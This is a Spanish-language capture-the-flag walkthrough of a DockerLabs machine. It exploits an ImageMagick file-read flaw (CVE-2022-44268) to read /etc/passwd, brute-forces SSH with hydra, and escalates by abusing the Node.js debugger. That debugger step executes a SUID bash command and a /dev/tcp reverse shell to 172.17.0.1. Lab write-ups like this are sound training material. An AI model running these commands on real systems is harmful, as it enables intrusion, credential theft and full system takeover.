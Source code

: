 nmap:  443, 80, 22

![image](https://github.com/user-attachments/assets/49f75831-c32a-4554-9753-b7c610099ee0)


---
entramos a la pagina principal y nos da esto:

![image](https://github.com/user-attachments/assets/7e0cb7f2-b4e8-47a6-8a08-10226e7e6d2c)


hay una subida de imagen o pdf y encontré este exploit que roba metadatos: https://github.com/voidz0r/CVE-2022-44268

seguimos los pasos y subimos la imagen 1200x1200

![image](https://github.com/user-attachments/assets/1fa9aaf9-cfe5-4db4-b69d-23a73cd077bf)


después guardamos la foto desde la pagina subida y al guardarla nos dará muchos números.

![image](https://github.com/user-attachments/assets/a2472f55-bf63-499f-a542-2beb191ae383)


lanzamos este comando con el numero dentro de los ""

>python3 -c 'print(bytes.fromhex("con el numero que nos dio"))'

y nos dará el listado de "/etc/passwd" con un usuario llamado "lenam"

hacemos fuerza bruta

     - hydra -l lenam -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

nos da la contraseña: loverboy

![image](https://github.com/user-attachments/assets/f72bfc59-fd0a-4045-8ba8-c2d7e9a9a7d5)

dentro al hacer sudo -l aparece: "kill"

![image](https://github.com/user-attachments/assets/e5a0d4e9-ac1b-4ca7-a0b2-cd5a2b7a87d3)

al hacer un "ps aux" vemos que en el PID 53 se ejecuta un "index.js"

![image](https://github.com/user-attachments/assets/c6cfc13b-ad4f-4d5c-8cfe-179beb50b297)


buscamos en: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse

y vemos que podemos escalar con: kill -s SIGUSR1 nodejs-ps
![[ejecucion 1.png]]

que quedaría:  sudo kill -s SIGUSR1 49 (o según se ejecute en este caso 49)
ahora si ejecutamos: netstat -atunop vemos que se reinicia ya hora esta habitado el puerto 9229
![[nuevopuerto.png]]

nos conectamos por la IP y puerto que da:  node inspect 127.0.0.1:9229

dentro del debug ejecutamos: 

    - exec("process.mainModule.require('child_process').exec('chmod u+s /bin/bash')")

ahora salimos y ejecutamos el bash -p

![[dockerlabs/dificil/debugme/root.png]]

pero no somos root absoluto, modificamos el código para una reverse shell

    - exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1\"')")

![[root absolute.png]]

y somos root!

